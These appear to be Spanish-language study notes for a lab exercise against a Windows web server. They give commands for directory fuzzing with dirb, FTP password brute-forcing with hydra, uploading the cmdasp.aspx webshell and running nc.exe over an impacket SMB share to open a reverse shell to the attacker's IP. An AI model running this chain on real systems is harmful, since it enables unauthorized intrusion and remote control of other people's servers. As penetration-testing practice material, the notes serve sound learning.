 - Servidor Microsoft LLS -> Servidor que se utiliza en versiones antiguas de Windows Server (2000) para gestionar las licencias de productos de servidor de Microsoft que utilizaban modelos de licencia CAL.
- Webshell -> Permite interactuar con un servidor web de forma remota.


- Tenemos nuestra maquina victima windows, tiene el puerto 80 abierto, vamos a hacer fuzzing web con la herramienta ==dirb==
- dirb:
	- Escanea contenido web.
	- Web fuzzer que realiza ataques basados en diccionario contra servidores web.
```
dirb http://(IP_VICTIMA)
```
![[Pasted image 20250104191832.png]]
- Nos muestra directorios.
- vamos a ver el ==aspnet_client==
![[Pasted image 20250104191926.png]]
- No podemos ver nada.
- Tenemos el puerto 21 (ftp) abierto, vamos a hacer fuerza bruta utilizando 2 diccionarios, 1 para usuario y el otro para contraseña.
```
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-password-1000000.txt ftp://(IP_VICTIMA)
```
- También se puede ocupar el diccionario rockyou.txt en password.
![[Pasted image 20250104193123.png]]
- Encontramos el usuario y el password, ahora podemos entrar por el puerto ftp.
```
ftp (IP_VICTIMA)
```

- Ya estando dentro nos damo cuenta que tenemos un index.html
![[Pasted image 20250104194059.png]]
- A veces el contenido ftp esta vinculado con el puerto 80, es decir el ==index.html== va siendo la pagina apache del puerto 80, al igual que con ==welcome.png== y ==aspnet_client==.
- Entonces, podemos subir archivos y podríamos verlos en el navegador.
- Kali tiene por defecto una cmd maliciosa guardad en el sistema, para encontrarla ocupamos el siguiente comando:
```
find / -name cmdasp.aspx 2>/dev/null
```
![[Pasted image 20250104194605.png]]
- Este archivo lo vamos a mover a Desktop.
	- Para hacerlo usamos el siguiente comando
```
cp (RUTA_DEL_ARCHIVO) . 
```
![[Pasted image 20250104194751.png]]
- Para poder subir el archivo desde el protocolo ftp usamos el comando:
```
put (NOMBRE_ARCHIVO)
```
![[Pasted image 20250104194948.png]]
- Si lo ponemos en la URL nos saldra el archivo:
![[Pasted image 20250104195041.png]]
- Hacemos una web shell.
	- Lo vamos a hacer levantando un recurso compartido.
- Nos vamos a kali, buscamos nc.exe
```
find / -name nc.exe 2>/dev/null
```
![[Pasted image 20250104195337.png]]
- Copiamos el segundo y lo llevamos a Desktop
- Ahora vamos  a levantar un recurso compartido desde la maquina Kali.
- Vamos  a usar la herramienta impacket-smbserver.

==impacket-smbserver==
- Esta herramienta permite crear un servidor SMB temporalmente en una maquina, lo que permite compartir archivos y ejecutar comandos en el contexto del servidor.

```
impacket-smbserver (NOMBRE_RECURSO) $(pwd) -smb2support
```
![[Pasted image 20250104195927.png]]
- Ahora ponemos en escucha.
![[Pasted image 20250104200027.png]]
- Vamos al navegador al cmdasp.aspx donde podemos ejecutar comando y ponemos lo siguiente:
```
\\(IP_ATACANTE)\(NOMBRE_RECURSO)\(ARCHIVO_SUBIR) -e cmd.exe (IP_ATACANTE) (PUERTO)
```
-e --> Le decimos que queremos hacer una reverse shell, una cmd.exe a mi maquina atacante por el puerto especificado.
![[Pasted image 20250104200734.png]]
- Ya estamos dentro.